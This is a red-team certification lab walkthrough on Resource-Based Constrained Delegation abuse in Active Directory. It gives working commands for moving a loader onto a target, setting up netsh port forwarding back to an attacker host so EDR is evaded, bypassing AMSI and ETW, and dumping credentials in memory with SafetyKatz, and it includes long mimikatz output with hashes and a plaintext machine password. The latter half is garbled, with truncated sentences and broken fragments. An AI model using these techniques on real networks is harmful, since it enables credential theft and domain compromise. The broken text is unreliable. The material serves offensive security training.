CRTE - Certified Red Team Expert
Privilege Escalation - RBCD(Resource Based Constrained Delegation)
Resource-Based Constrained Delegation (RBCD) Abuse: A Masterclass in Offensive Precision
In the shadowed corridors of Active Directory (AD) exploitation, Resource-Based Constrained Delegation (RBCD) stands out as a technique both elegant and devastating. This isn’t just another trick in the red team playbook, it’s a calculated maneuver that turns a feature designed for trust into a ladder for privilege escalation and lateral domination. Our journey here is purely offensive, slicing through enumeration to exploitation with a focus so sharp it could impress even the most seasoned operators. Let’s unravel RBCD abuse, layer by layer, weaving a narrative that’s as deep as it is concise, steering clear of the bullet-point clutter and aiming for a flow that resonates with expertise.
What is Resource-Based Constrained Delegation (RBCD)?
Imagine Active Directory as a kingdom of trust, where delegation dictates who can speak for whom. Traditional Kerberos delegation, whether Unconstrained or Constrained Delegation, puts the power in the hands of administrators, who configure accounts to delegate authentication. RBCD flips this monarchy on its head. Introduced as a security enhancement, it empowers the resource itself, say, a computer or service, to declare who can delegate to it. This decision lives in the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the resource’s AD object, a security descriptor written in SDDL (Security Descriptor Definition Language) that lists the trusted delegators.
In a legitimate world, this is brilliance. A web server might allow only a specific service account to authenticate users to a backend database, tightening control without blanket permissions. But in our world, the offensive realm, this self-governance is a crack in the fortress. By manipulating that attribute, we can position ourselves as trusted delegators, impersonating anyone we choose, from a lowly user to a domain kingpin, all without their credentials crossing our path.
Why and How is RBCD Abuse Possible?
RBCD abuse thrives on a collision of design and oversight, fueled by Active Directory’s defaults and the arcane power of Kerberos Service-for-User (S4U) extensions. Let’s break this alchemy down.
First, consider the permissions landscape. Every machine account in AD, those suffixed with a $, like COMPUTERNAME$, holds sway over its own attributes by default. More intriguingly, standard users often wield the Create Computer permission, a quiet gift that lets them birth up to 10 machine accounts into the domain. This means we can either seize an existing machine or forge a new one, a puppet under our command. But the real leverage comes when we target a resource, like a server, and find we can rewrite its msDS-AllowedToActOnBehalfOfOtherIdentity attribute. This isn’t a given, it demands specific write access, often hidden in misconfigured Access Control Lists (ACLs). When that access aligns with a machine we control, the stage is set.
Now enters Kerberos, with its S4U extensions: S4U2Self and S4U2Proxy. These are the gears of impersonation. With S4U2Self, an account trusted for delegation can request a ticket to itself as any user, no credentials needed, just a nod from the Key Distribution Center (KDC). Then, S4U2Proxy takes that ticket and stretches it, requesting a ticket to another service as that same user. In RBCD abuse, if our controlled machine is listed in a target’s delegation attribute, we can request a ticket as, say, a domain admin to ourselves via S4U2Self, then pivot with S4U2Proxy to the target resource, masquerading as that admin. It’s a seamless forgery, executed without ever touching the victim’s secrets.
The why is simple: RBCD’s flexibility, meant to refine trust, exposes a fault line when permissions slip. The how is our mastery of that fault, blending AD’s generosity with Kerberos’s trust to forge a path to power.
Rights and Permissions We Need to Abuse RBCD
To abuse Resource-Based Constrained Delegation (RBCD), we need to understand the specific rights required to pull it off.
The core requirement is write access to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute on the target resource (usually a computer object). This attribute controls delegation, and modifying it lets us set up the attack. Here’s how we can get that access:
- GenericAll: This gives us full control over the target object, including the ability to write to any attribute, like
msDS-AllowedToActOnBehalfOfOtherIdentity. It’s overkill, but it works. - GenericWrite: This provides write access to all attributes of the object, including the one we need. It’s less permissive than GenericAll but still sufficient.
- WriteProperty (specific to
msDS-AllowedToActOnBehalfOfOtherIdentity): This is the most precise permission we need. If our rights are granular, this alone lets us modify the delegation attribute without broader control.
In short, we don’t need full control, GenericAll or GenericWrite will do the job, but if we’re working with limited permissions, WriteProperty for that specific attribute is enough.
Additional Requirement: Machine Account Control
On top of that, we need a machine account to delegate from. We can either:
- Create a new one: This requires the Create Computer permission, which many standard users have by default (often up to 10 computer accounts).
- Compromise an existing one: If we can’t create a new account, we need to take over an existing machine account, let’s say, by stealing credentials or exploiting a vulnerability.
Mandatory Requirements to Success on RBCD Attack
- Write Permissions on Target Computer Object
- Ability to modify the
msDS-AllowedToActOnBehalfOfOtherIdentityattribute (e.g., viaGenericWrite,WriteProperty, or misconfigured ACLs). - Control Over a Machine Account
- A compromised or newly created machine account (with known credentials) configured with an SPN (e.g.,
HOST/ATTACKERPC).
We use a computer account (not a user account like user123) because Kerberos delegation requires a Service Principal Name (SPN) to function. Machine accounts automatically have SPNs (e.g., HOST/ComputerName), while user accounts do not. For RBCD attacks, SPNs are critical because the attack depends on requesting and relaying Kerberos service tickets, something only possible when delegating through a machine account with a valid SPN. User accounts lack this capability, making them incompatible with the RBCD exploitation process.
Simplified:
- Machine accounts = Have SPNs (required for delegation).
- User accounts = No SPNs by default.
- RBCD needs SPNs to forge tickets and impersonate users.
- Kerberos S4U Exploitation
- Use the controlled account to perform S4U2Self (impersonate a user) and S4U2Proxy (request a service ticket for the target service).
- Network Access to Domain Controller
- Ability to communicate with the domain controller for Kerberos ticket requests.
- Target Service Trust
- The target computer must trust the attacker’s machine account for delegation (via the modified
msDS-AllowedToActOnBehalfOfOtherIdentity). - Privileged User Impersonation
- Forge tickets to impersonate high-privilege users (e.g., Domain Admins) for access to the target service (e.g., CIFS, HTTP).
Real-World Use Case Scenario: From Foothold to File Server Supremacy
Let’s paint a picture, a corporate Active Directory sprawl, ripe for the taking. We’re red team operators, tasked with climbing from a humble user to domain dominance. Here’s how RBCD abuse unfolds in the wild, step by calculated step.
Our story begins with a phishing win. We’ve snagged jsmith, a standard domain user with no fancy titles but the default knack for creating machine accounts. The domain is a maze of servers, and our eyes lock on FILESERV, a file server humming with activity, often touched by domain admins. If we can impersonate one there, the kingdom’s treasures, credentials, files, or a pivot point, might spill into our hands.
With jsmith, we conjure a new machine account, SHADOW-PC$, using a tool like PowerMad. A quick command spins it into existence, and we hold its name and hash, ready to wield. Next, we scout FILESERV. We need to amend its msDS-AllowedToActOnBehalfOfOtherIdentity attribute to trust SHADOW-PC$, but jsmith alone can’t touch it. Time for enumeration, BloodHound sweeps the domain, mapping ACLs, and reveals a gem: the “Helpdesk” group has write access to FILESERV’s attributes, a relic of lazy admin work. Even better, jsmith sits in that group.
Using jsmith’s credentials, we slide into PowerView and tweak FILESERV, adding SHADOW-PC$ to its delegation list. The server now trusts our creation to authenticate on its behalf. The stage is set.
Now, we wield SHADOW-PC$’s hash with Rubeus, invoking the S4U ritual. First, S4U2Self: we request a ticket to SHADOW-PC$ as da_boss, a domain admin we’ve spotted in logs. The KDC complies, no questions asked. Then, S4U2Proxy: we take that ticket and request one to FILESERV’s cifs service as da_boss. Rubeus injects it into our session with a flick of /ptt, and suddenly, net use \\\\FILESERV\\c$ works like we’re the admin ourselves. We’re in pulling files, hunting for hashes, or planting persistence, all under da_boss’s banner, yet their password remains untouched.
This isn’t hypothetical fluff, it’s a playbook born from real domains, where default rights, group oversights, and RBCD’s trust collide. From a phishing toehold to file server reign, we’ve escalated silently, leaving minimal ripples.
Closing the Loop: Mastery in Motion
RBCD abuse isn’t just a technique, it’s a mindset, a fusion of enumeration’s patience and exploitation’s audacity. It’s knowing that a resource’s trust can be rewritten, that Kerberos bends under S4U’s sway, and that missteps in AD’s vastness are our stepping stones. For the expert operator, this is a nod of recognition, a method that rewards precision over brute force. For the hungry learner, it’s a blueprint: enumerate with tools like BloodHound, control your pieces, and strike where permissions falter. In the offensive game, RBCD is a scalpel, sharp, subtle, and devastating when wielded right.
We have already enumerated ACLs for studentuserx and studentusers group. Recall that we have admin access to us-mgmt (we added studentuserx to the machineadmins group) but we never extracted credentials from that machine. Let's do that now.
Mapping Shares to local system
Let’s start by Mapping shares from remote servers to our local system to allow seamless access to the target machine's files as if they were stored locally.
This is useful for tasks like transferring payloads, extracting sensitive data, or staging tools for further exploitation. We will use this approach to be able to transfer files to our target US-mgmt.
Advantages:
- Convenience: It simplifies interaction with the target's file system, enabling easy copying, reading, or modification of files.
- Efficiency: File transfers and tool deployments are faster and more straightforward compared to manual uploads or downloads.
- Persistence: The mapped drive can remain accessible for the session, allowing continuous interaction without repeatedly authenticating.
- Stealth: Uses built-in Windows functionality, making the activity less suspicious to some monitoring tools.
> **Note: If your mapping does not work on the one-liner passing the password on it, it’s probably due to special characters on the credential and you may get error Password i not correct.
To bypass this, you can simply do the whole mapping command and put the password after it is asked.**
net use x: \\us-mgmt\C$\Users\Public

Let’s now Copy our loader into our target using xcopy.
echo F | xcopy C:\AD\Tools\Loader.exe x:Loader.exe

The echo F we pass in the beginning is to tell prompt that we are transferring a file.
After uploading our loader into the target, we can now delete our mapped driver x since we don’t need it anymore.
net use x: /delete

Portforwarding to bypass EDR
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call SafetyKatz using it’s localhost IP.
winrs -r:us-mgmt cmdnetsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163

1. netsh interface portproxy add v4tov4:
netsh interface portproxy: This is the part of thenetshutility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.add: Specifies that you're adding a new forwarding rule.v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port
8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
0.0.0.0means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port
80(commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).
This port forwarding setup redirects traffic received on port 8080 from our compromised machine to port 80 on our attacking macchine (192.168.100.163), which acts as a bridge.
We can check this portforwarding with the following command:
nesh interface portproxy show all
Because Windows Defender also detects Rubens even if we use it with Loaders, we will encode the argument being used for the loader in use with ArgSplit.bat.
ArgSplit.bat is a batch file script often used to split arguments passed to it into separate variables or individual pieces for further processing in Windows batch scripting. It is a utility script designed to handle and parse command-line input efficiently. https://github.com/Raptoratack/ADTools
We will be using a modified NetLoader from https://github.com/Flangvik/NetLoader which is proper for this environment. You can also also download the NetLoader and modify it as you please.
Let start by generating the encoded arguments for the word “kerberoast” which is the argument we’ll be using for Rubeus when requesting for Service account hashes.
Bare in mind that we should execute ArgSplit.bat in CMD session and not PowerShell. After the encode we should do a copy/paste to our CMD session.
.\ArgSplit.bat

Let’s now copy/paste this encoded argument into our us-mgmt session.

We can now dump the Credentials by running SafetyKatz.exe into the memory with Loader.exe
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn%" "exit"
ekeys dumps
`bash
[*] Applying amsi patch: true
[*] Applying etw patch: true
[*] Decrypting packed exe...
[!] ~Flangvik - Arno0x0x Edition - #NetLoader
[+] Patched!
[+] Starting http://127.0.0.1:8080/SafetyKatz.exe with args 'sekurlsa::ekeys exit'
.#####. mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
/ \ ## /*** Benjamin DELPY gentilkiwi ( benjamin@gentilkiwi.com )
\ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz(commandline) # sekurlsa::ekeys
Authentication Id : 0 ; 13026072 (00000000:00c6c318)
Session : RemoteInteractive from 2
User Name : mgmtadmin
Domain : US
Logon Server : US-DC
Logon Time : 7/7/2024 2:42:53 AM
SID : S-1-5-21-210670787-2521448726-163245708-1115
* Username : mgmtadmin
* Domain : US.TECHCORP.LOCAL
* Password : (null)
* Key List :
aes256_hmac 32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f
rc4_hmac_nt e53153fc2dc8d4c5a5839e46220717e5
rc4_hmac_old e53153fc2dc8d4c5a5839e46220717e5
rc4_md4 e53153fc2dc8d4c5a5839e46220717e5
rc4_hmac_nt_exp e53153fc2dc8d4c5a5839e46220717e5
rc4_hmac_old_exp e53153fc2dc8d4c5a5839e46220717e5
Authentication Id : 0 ; 29446 (00000000:00007306)
Session : Interactive from 0
User Name : UMFD-0
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 7/7/2024 2:08:17 AM
SID : S-1-5-96-0-0
* Username : US-MGMT$
* Domain : us.techcorp.local
Password : 5k:=71Bwt * Key List : aes256_hmac a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca aes128_hmac 31e8df3539171e9dd6ab71b04408492a rc4_hmac_nt fae951131d684b3318f524c535d36fb2 rc4_hmac_old fae951131d684b3318f524c535d36fb2 rc4_md4 fae951131d684b3318f524c535d36fb2 rc4_hmac_nt_exp fae951131d684b3318f524c535d36fb2 rc4_hmac_old_exp fae951131d684b3318f524c535d36fb2 Authentication Id : 0 ; 12436820 (00000000:00bdc554) Session : Interactive from 2 User Name : DWM-2 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:42:15 AM SID : S-1-5-90-0-2 * Username : US-MGMT$ * Domain : us.techcorp.local Password : 5k:=71Bwt * Key List : aes256_hmac a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca aes128_hmac 31e8df3539171e9dd6ab71b04408492a rc4_hmac_nt fae951131d684b3318f524c535d36fb2 rc4_hmac_old fae951131d684b3318f524c535d36fb2 rc4_md4 fae951131d684b3318f524c535d36fb2 rc4_hmac_nt_exp fae951131d684b3318f524c535d36fb2 rc4_hmac_old_exp fae951131d684b3318f524c535d36fb2 Authentication Id : 0 ; 48756 (00000000:0000be74) Session : Interactive from 1 User Name : DWM-1 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:08:18 AM SID : S-1-5-90-0-1 * Username : US-MGMT$ * Domain : us.techcorp.local Password : 5k:=71Bwt * Key List : aes256_hmac a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca aes128_hmac 31e8df3539171e9dd6ab71b04408492a rc4_hmac_nt fae951131d684b3318f524c535d36fb2 rc4_hmac_old fae951131d684b3318f524c535d36fb2 rc4_md4 fae951131d684b3318f524c535d36fb2 rc4_hmac_nt_exp fae951131d684b3318f524c535d36fb2 rc4_hmac_old_exp fae951131d684b3318f524c535d36fb2 Authentication Id : 0 ; 29499 (00000000:0000733b) Session : Interactive from 1 User Name : UMFD-1 Domain : Font Driver Host Logon Server : (null) Logon Time : 7/7/2024 2:08:17 AM SID : S-1-5-96-0-1 * Username : US-MGMT$ * Domain : us.techcorp.local Password : 5k:=71Bwt * Key List : aes256_hmac a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca aes128_hmac 31e8df3539171e9dd6ab71b04408492a rc4_hmac_nt fae951131d684b3318f524c535d36fb2 rc4_hmac_old fae951131d684b3318f524c535d36fb2 rc4_md4 fae951131d684b3318f524c535d36fb2 rc4_hmac_nt_exp fae951131d684b3318f524c535d36fb2 rc4_hmac_old_exp fae951131d684b3318f524c535d36fb2 Authentication Id : 0 ; 999 (00000000:000003e7) Session : UndefinedLogonType from 0 User Name : US-MGMT$ Domain : US Logon Server : (null) Logon Time : 7/7/2024 2:08:17 AM SID : S-1-5-18 * Username : us-mgmt$ * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 rc4_hmac_nt fae951131d684b3318f524c535d36fb2 rc4_hmac_old fae951131d684b3318f524c535d36fb2 rc4_md4 fae951131d684b3318f524c535d36fb2 rc4_hmac_nt_exp fae951131d684b3318f524c535d36fb2 rc4_hmac_old_exp fae951131d684b3318f524c535d36fb2 **Authentication Id : 0 ; 13024596 (00000000:00c6bd54) Session : RemoteInteractive from 2 User Name : mgmtadmin Domain : US Logon Server : US-DC Logon Time : 7/7/2024 2:42:53 AM SID : S-1-5-21-210670787-2521448726-163245708-1115 * Username : mgmtadmin * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac 32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f rc4_hmac_nt e53153fc2dc8d4c5a5839e46220717e5 rc4_hmac_old e53153fc2dc8d4c5a5839e46220717e5 rc4_md4 e53153fc2dc8d4c5a5839e46220717e5 rc4_hmac_nt_exp e53153fc2dc8d4c5a5839e46220717e5 rc4_hmac_old_exp e53153fc2dc8d4c5a5839e46220717e5 ** Authentication Id : 0 ; 12436853 (00000000:00bdc575) Session : Interactive from 2 User Name : DWM-2 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:42:15 AM SID : S-1-5-90-0-2 * Username : US-MGMT$ * Domain : us.techcorp.local Password : 5k:=71Bwt * Key List : aes256_hmac a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca aes128_hmac 31e8df3539171e9dd6ab71b04408492a rc4_hmac_nt fae951131d684b3318f524c535d36fb2 rc4_hmac_old fae951131d684b3318f524c535d36fb2 rc4_md4 fae951131d684b3318f524c535d36fb2 rc4_hmac_nt_exp fae951131d684b3318f524c535d36fb2 rc4_hmac_old_exp fae951131d684b3318f524c535d36fb2 Authentication Id : 0 ; 12425848 (00000000:00bd9a78) Session : Interactive from 2 User Name : UMFD-2 Domain : Font Driver Host Logon Server : (null) Logon Time : 7/7/2024 2:42:15 AM SID : S-1-5-96-0-2 * Username : US-MGMT$ * Domain : us.techcorp.local Password : 5k:=71Bwt * Key List : aes256_hmac a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca aes128_hmac 31e8df3539171e9dd6ab71b04408492a rc4_hmac_nt fae951131d684b3318f524c535d36fb2 rc4_hmac_old fae951131d684b3318f524c535d36fb2 rc4_md4 fae951131d684b3318f524c535d36fb2 rc4_hmac_nt_exp fae951131d684b3318f524c535d36fb2 rc4_hmac_old_exp fae951131d684b3318f524c535d36fb2 Authentication Id : 0 ; 996 (00000000:000003e4) Session : Service from 0 User Name : US-MGMT$ Domain : US Logon Server : (null) Logon Time : 7/7/2024 2:08:18 AM SID : S-1-5-20 * Username : us-mgmt$ * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 rc4_hmac_nt fae951131d684b3318f524c535d36fb2 rc4_hmac_old fae951131d684b3318f524c535d36fb2 rc4_md4 fae951131d684b3318f524c535d36fb2 rc4_hmac_nt_exp fae951131d684b3318f524c535d36fb2 rc4_hmac_old_exp fae951131d684b3318f524c535d36fb2 Authentication Id : 0 ; 48730 (00000000:0000be5a) Session : Interactive from 1 User Name : DWM-1 Domain : Window Manager Logon Server : (null) Logon Time : 7/7/2024 2:08:18 AM SID : S-1-5-90-0-1 * Username : US-MGMT$ * Domain : us.techcorp.local Password : 5k:=71Bwt * Key List : aes256_hmac a482f25201274e7b6088680d0159895ddba763cab7ddf736ec9bd9919c697cca aes128_hmac 31e8df3539171e9dd6ab71b04408492a rc4_hmac_nt fae951131d684b3318f524c535d36fb2 rc4_hmac_old fae951131d684b3318f524c535d36fb2 rc4_md4 fae951131d684b3318f524c535d36fb2 rc4_hmac_nt_exp fae951131d684b3318f524c535d36fb2 rc4_hmac_old_exp fae951131d684b3318f524c535d36fb2 mimikatz(commandline) # exit ` To determine which AES256 hash is the correct one for the US-MGMT$ account, we need to identify the real Kerberos key instead of session-specific keys or duplicate entries. In our SafetyKatz output, multiple instances of the US-MGMT$ account appear with different Authentication IDs, which means there are multiple sessions where this account is active. This happens because: To determine the valid AES256 key for Kerberos authentication, look at: Le’s encode our Rubeus argument(asktgt) using ArgSplit.bat file and copy/paste it into the session.  We can confirm if this AES256 key is the right one by using Rubeus.exe to request US-MGMT TGT and import it to a new session.  As we can see above, we were able to request As we can also see from our credentials dumping on US-MGMT host, we also found credentials for When we first enter a domain, our initial enumeration is limited to what we can access with our current user or low-privileged account. As we move laterally and escalate privileges, we gain access to new credentials, groups, and permissions. Each time we compromise a new account, we should: This cyclic approach ensures that every compromised account provides new intelligence to refine our attack path toward higher privileges. If we stop enumerating after the first compromise, we might miss a direct route to domain dominance. We will be using PowerView Module to make this enumeration. All we need to do is to filter based on our username. >  As we can see from our enumeration, our compromised user Since we have GenericWrite, we can modify its attributes, including The reason we use a computer object (student VM) instead of a user account (studentuser163) is because Kerberos delegation requires a Service Principal Name (SPN). User accounts do not have SPNs by default, whereas machine accounts do. This is crucial for RBCD because the attack relies on requesting and forwarding Kerberos service tickets, which only works when a machine account is used for delegation. By leveraging this setup, we can request a Kerberos ticket for a high-privileged user, delegate it to We should elevate our privilege to the compromised As always let’s encode our Rubeus.exe argument(  We have our new session as Let’s configure Resource-Based Constrained Delegation (RBCD) on the As always we should start by importing our ADModule first. Let’s configure Resource-Based Constrained Delegation (RBCD) by modifying the We create a variable (  Now we will need our Encode the SafetyKatz.exe argument( Let’s use run Note that you will get different AES keys for the `C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn%" "exit"bash Authentication Id : 0 ; 999 (00000000:000003e7) Session : UndefinedLogonType from 0 User Name : STUDENT163$ Domain : US Logon Server : (null) Logon Time : 2/2/2025 7:58:14 AM SID : S-1-5-18 * Username : student163$ * Domain : US.TECHCORP.LOCAL * Password : (null) * Key List : aes256_hmac 5383ebf4fde9071ca6fe318f518202dfad2200e06ddab1b3798fda0bf1c7b764 rc4_hmac_nt a59716019e04da71992ce4f82ea05157 rc4_hmac_old a59716019e04da71992ce4f82ea05157 rc4_md4 a59716019e04da71992ce4f82ea05157 rc4_hmac_nt_exp a59716019e04da71992ce4f82ea05157 rc4_hmac_old_exp a59716019e04da71992ce4f82ea05157 ` We should now use our AES key for Encode the Rubeus.exe argument( We can now run Rubeus.exe in the memory using our loader Loader.exe Here’s a table of services that can be forged for Kerberos tickets along with the native tools or protocols that rely on these services. This information is critical for targeting specific resources during post-exploitation: We can now run Rubeus.exe in the memory using our loader Loader.exe  In this process, we are using Rubeus to perform a Resource-Based Constrained Delegation (RBCD) attack, leveraging the AES key of First, we ensure that we have access to the AES-256 key for the machine account By executing The Once the ticket is injected, we verify it using At this point, we have successfully hijacked authentication using delegation misconfigurations, and we can now move forward with executing commands as As we can see from our klist command, we have We can now run Rubeus.exe in the memory using our loader Loader.exe We can see now that we do have Let’s start by Mapping shares from remote servers to our local system to allow seamless access to the target machine's files as if they were stored locally. This is useful for tasks like transferring payloads, extracting sensitive data, or staging tools for further exploitation. We will use this approach to be able to transfer files to our target Advantages: > **Note: If your mapping does not work on the one-liner passing the password on it, it’s probably due to special characters on the credential and you may get error Password i not correct. To bypass this, you can simply do the whole mapping command and put the password after it is asked.** Let’s now Copy our loader into our target using The After uploading our loader into the target, we can now delete our mapped driver x since we don’t need it anymore.  To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call SafetyKatz using it’s localhost IP. This port forwarding setup redirects traffic received on port 8080 from our compromised machine to port 80 on our attacking macchine (192.168.100.163), which acts as a bridge. We can check this portforwarding with the following command:  Let’s Encode the SafetyKatz.exe argument(  Please make sure that we are hosting our SafeteyKatz on localhost. I’m currently using Let’s now execute our SafetyKatz.exe in the memory with 